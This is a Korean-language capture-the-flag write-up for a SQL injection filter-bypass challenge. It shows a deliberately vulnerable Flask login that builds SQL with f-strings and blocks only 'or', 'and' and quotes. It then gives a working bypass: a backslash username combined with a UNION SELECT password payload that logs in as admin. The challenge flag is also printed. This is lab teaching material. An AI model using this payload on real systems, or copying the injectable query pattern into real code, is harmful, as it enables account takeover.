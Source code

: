 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.2 SQLi_WAF_2"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-28T23:00:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10031/>

![3.2 SQLi WAF 2 1](/assets/images/writeup/web-hacking/knock-on/3-2_SQLi_WAF_2_1.png)

![3.2 SQLi WAF 2 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.2 SQLi WAF 2 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정으로 로그인하기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
LOGIN_FLAG = os.getenv("LOGIN_FLAG")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)


class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)


@app.route("/")
def home():
    return render_template("index.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '\'', '"']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user and user[1] == "admin":
            return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
        elif user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")


@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)


if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

|

|

|

## 코드 분석

```python
filtering_list = ['or', 'and', '\'', '"']
username = request.form["username"].lower()
password = request.form["password"].lower()
```

or, and에 이어 `‘(따옴표)`가 금지 당함


|

|

|

## Exploit

```sql
SELECT * FROM user WHERE username = '{username}' AND password = '{password}'
```

```sql
admin' -- 1
```

사용 불가

`‘`를 사용할 수 없기 때문에 기존의 공격 방식을 사용할 수 없음

|

```sql
SELECT * FROM user WHERE username = '\' AND password = '{password}'
```

`username`에 `\(백 슬래시)`를 사용하면 바로 뒤에 있는 `‘`가 문자로 인식됨

그래서 그 다음 `‘`까지, `'\' AND password ='` 가 문자열로 인식되고, 그 뒷부분인 `password` 부터 쿼리로 인식함

`password`부분에  **union**을 이용해 **admin**으로 로그인하는 새 쿼리를 작성해주면 됨 

|

```sql
union select 1,2,3 -- 1
```

![3.2 SQLi WAF 2 2](/assets/images/writeup/web-hacking/knock-on/3-2_SQLi_WAF_2_2.png)

`user 테이블`의 열 수가 3이므로 기본 형태는 이렇게 됨

|

```sql
union select 1,(select username from user limit 1,1),3 -- 1
```

`username`의 첫 번째 행은 guest이므로 두 번째 행인 **admin**으로 설정

|

|

|

## Payload

```
username: \

password: union select 1, (select username from user limit 1,1), 3 -- 1
```

|

|

### FLAG

---

```
K0{quote_is_important}
```

|

---